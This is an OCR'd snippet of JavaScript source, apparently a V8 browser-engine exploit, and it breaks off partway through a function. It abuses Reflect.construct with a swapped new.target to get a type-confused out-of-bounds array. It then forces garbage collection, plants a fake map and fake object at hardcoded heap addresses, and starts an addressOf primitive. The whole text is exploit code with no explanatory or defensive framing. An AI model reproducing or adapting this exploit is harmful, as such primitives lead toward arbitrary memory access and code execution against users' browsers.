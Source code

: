 ```
}

var x = Array;

class Base {}

class Derived extends Base {
constructor() {
    x = new.target;
super();
  }
}

function construct() {
var res = Reflect.construct(Derived, [], x);
return res;
}

for (let i = 0; i < 2000; i++) construct();

trigger_gc();
trigger_gc();


var oob_array = construct();
oob_array = construct();
// p(oob_array);
// console.log(oob_array.length);

var confused_element_addr = 0x219+7;
var element_addr = 0x2423e9 - 1;
var element_addr_start = element_addr + 8;
var fake_map_addr = element_addr + 0x1000;
var fake_object_addr = element_addr + 0x2000;
var saved_fake_object_addr = element_addr + 0x100;


logg(&#34;confused_element_addr&#34;, confused_element_addr);
logg(&#34;element_addr&#34;, element_addr);
logg(&#34;element_addr_start&#34;, element_addr_start);
logg(&#34;fake_map_addr&#34;, fake_map_addr);
logg(&#34;fake_object_addr&#34;, fake_object_addr);


new Array(0x7f00).fill({});
var victim_array = new Array(0x7f00).fill({});

// p(victim_array);

oob_array[(fake_map_addr - confused_element_addr)/8] = u64_to_f64(0x2c04040400000061n);
oob_array[(fake_map_addr - confused_element_addr)/8 + 1] = u64_to_f64(0x0a0007ff11000842n);
oob_array[(fake_object_addr - confused_element_addr)/8] = lh_u32_to_f64(fake_map_addr+1,0x0);
oob_array[(fake_object_addr - confused_element_addr)/8 + 1] = lh_u32_to_f64(0x1000,0x1000);
oob_array[(saved_fake_object_addr - confused_element_addr)/8] = lh_u32_to_f64(fake_object_addr+1,fake_object_addr+1);

var fake_object = victim_array[(saved_fake_object_addr - element_addr_start)/4];
// console.log(typeof fake_object);
// p(fake_object);

function addressOf(obj){
    victim_array[0] = obj;
return u64_to_u32_lo(f64_to_u64(oob_array[(element_addr_start - confused_element_addr)/8]));
```
